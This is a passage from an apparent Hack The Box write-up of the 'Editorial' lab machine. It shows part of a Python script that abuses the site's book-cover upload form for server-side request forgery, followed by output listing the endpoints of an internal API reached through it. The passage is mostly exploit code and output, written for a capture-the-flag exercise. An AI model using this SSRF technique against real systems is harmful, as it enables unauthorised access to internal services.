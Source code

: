 ```python
    'Referer': 'http://editorial.htb/upload',
    'DNT': '1',
    'Sec-GPC': '1',
    }

    data = f'-----------------------------167008962427088142091823041654\r\nContent-Disposition: form-data; name="bookurl"\r\n\r\n{url}\r\n-----------------------------167008962427088142091823041654\r\nContent-Disposition: form-data; name="bookfile"; filename=""\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------167008962427088142091823041654--\r\n'

    response = requests.post('http://editorial.htb/upload-cover', headers=headers, data=data, verify=False)
    result_url = f"http://editorial.htb/{response.text}"
    r = requests.get(result_url)
    return r


if __name__ == "__main__":
    result = fetch(sys.argv[1])
    print(result.text)
```

- Available api endpoints

```bash
┌──(bravosec㉿fsociety)-[~/htb/Editorial]
└─$ p python ssrf.py http://127.0.0.1:5000 | jq .
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
```